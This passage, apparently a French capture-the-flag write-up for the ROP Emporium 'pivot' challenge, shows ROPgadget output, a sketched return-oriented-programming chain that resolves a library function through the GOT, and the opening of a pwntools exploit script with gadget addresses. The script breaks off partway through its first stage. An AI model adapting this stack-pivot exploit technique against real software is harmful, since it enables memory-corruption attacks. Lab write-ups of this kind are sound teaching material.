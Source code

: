 Nous pouvons ici additionner `rax` avec `rbp`, nous devons donc trouver un `pop rbp` et un moyen de charger l'adresse contenus dans `rax` dans `rax` :

~~~bash
root@kali:~/rop_emporium/pivot# ROPgadget --binary pivot  | grep "\[rax\]" --color
0x00000000004008f2 : and byte ptr [rax], ah ; jmp rax
0x0000000000400967 : and byte ptr [rax], al ; add ebx, esi ; ret
0x0000000000400b06 : mov eax, dword ptr [rax] ; ret
0x0000000000400b05 : mov rax, qword ptr [rax] ; ret

root@kali:~/rop_emporium/pivot# ROPgadget --binary pivot  | grep "rbp" --color
0x0000000000400b07 : add bl, al ; add rax, rbp ; ret
0x00000000004008fc : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000004008ef : pop rbp ; mov edi, 0x602078 ; jmp rax
0x0000000000400b6b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400b6f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400900 : pop rbp ; ret
~~~

Maintenant construisons la rop chain : 

~~~bash
@ PLT foothold
pop rax
@ GOT foothold
mov [rax] rax ; ret
[Offset]0x14E
add rax, rbp ; ret
call rax ; ret 
~~~

### Le script : 

~~~python
#!/usr/bin/env python

from pwn import *

#foorhold plt 400850 got 602048
plt_foothold = 0x400850
got_foothold = 0x602048

# pop rax
pop_rax = 0x400b00
# xchg rax rsp
xchg_rax_rsp = 0x400b02
pop_rdi = p64(0x400b73)
pop_rbp = p64(0x400900)
mov_rax_rax = p64(0x400b05)
add_rax_rbp = p64(0x400b09)
call_rax = p64(0x40098e)
junk = "A"*40

p = process("./pivot")

# debug
#pid = util.proc.pidof(p)[0]
#print "The pid is: "+str(pid)
#util.proc.wait_for_debugger(pid)


#stage 1
# Pivot from small area to another one

leaked_addr = int(p.recvline_contains('The Old Gods kindly bestow upon you a place to pivot:').decode('UTF-8').split(' ')[-1], 16)
~~~